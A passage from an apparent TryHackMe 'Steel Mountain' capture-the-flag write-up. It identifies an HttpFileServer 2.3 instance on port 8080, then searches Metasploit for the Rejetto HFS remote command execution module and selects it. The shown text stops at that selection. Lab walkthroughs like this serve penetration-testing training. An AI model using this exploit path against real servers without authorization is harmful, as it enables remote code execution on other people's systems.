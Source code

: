 Visiting port 8080 shows the HttpFileServer (HFS) 2.3 interface:
![HFS Server Image](/assets/TryHackMeRoomsImage/STEELMOUNTAIN/server2.png)

**Additional Info**: The HFS version is confirmed as 2.3 via the official site: [Rejetto HFS](http://www.rejetto.com/hfs/).

---

## Initial Access with Metasploit

### Exploit Selection
Start Metasploit and search for exploits related to `rejetto` (HFS developer):
```js
msf6 > search rejetto
```
**Result**:
```js
   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```

Select the exploit:
```js
msf6 > use exploit/windows/http/rejetto_hfs_exec
```

